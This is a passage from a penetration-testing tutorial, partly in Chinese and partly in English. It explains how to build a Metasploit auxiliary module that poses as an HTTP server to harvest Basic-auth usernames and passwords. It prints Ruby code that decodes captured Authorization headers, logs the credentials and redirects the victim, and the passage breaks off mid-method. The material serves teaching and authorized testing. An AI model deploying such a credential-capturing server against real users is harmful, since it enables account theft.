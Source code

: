 ])

结束

如您所见，一旦我们创建了**MetasploitModule**类，就会使用**include**导入一个模块。通过这种方式导入的模块通常称为**mixins**，因为它们将引用模块中的所有方法并混合进来。当你在构建模块或者研究模块以了解其工作原理时，应该特别注意这一点。如果你只是查看一个模块的内部工作原理，也应该检查一下这个 mixin 代码。同样，如果你在构建模块时，如果能够引入具有核心功能的模块，不要重复发明轮子。在我们的例子中，我们通过伪装成一个 HTTP 服务器来捕获凭据，因此我们引入了**Msf::Exploit::Remote::HttpServer::HTML**的功能。

Here, the **initialize** method takes **info={}** as an argument and is meant to provide general information about the auxiliary module, with **super(update_info())**, and then declare the options available to the user with **register_options()**. We’re not concerned with the general information for now; however, we are interested in the options. Options are user-defined variables known as **datastore options**. **OptString.new()** declares a variable of the string class, so we’re now allowing the user to define the authentication realm, which redirects the URL after the falsified authentication is complete. You may be thinking, *what about localhost and port?*, and you’d be right to.

Remember that we imported the HTTP server mixin, which already has its port and host declared, as shown in the following code:

def run

@myhost = datastore['SRVHOST']

@myport = datastore['SRVPORT']

@realm = datastore['REALM']

print_status("Listening for connections on

#{datastore['SRVHOST']}:#{datastore['SRVPORT']}...")

Exploit

end

Now, we have to create the **run** method, which is where the module’s functionality starts. Some instance variables are declared here using the values stored in the defined datastore options, and the user is then advised that we’re firing up a quick-and-dirty HTTP server.

Normally, the **run** method is where the juicy stuff goes, but in this case, we’re leveraging the HTTP server mixin. The real exploit that’s being called is just an HTTP server that returns requests and session data when someone connects to it. We also define the **on_request_uri()** method so that it does something with the returned data, as shown in the following code:

def on_request_uri(cli, req)

if(req['Authorization'] and req['Authorization'] =~ /basic/i)

basic,auth = req['Authorization'].split(/\s+/)

user,pass = Rex::Text.decode_base64(auth).split(':', 2)

print_good("#{cli.peerhost} - Login captured! \"#{user}:#{pass}\" ")

if datastore['redirURL']

print_status("Redirecting client #{cli.peerhost} to #{datastore['redirURL']}")

send_redirect(cli, datastore['redirURL'])

else
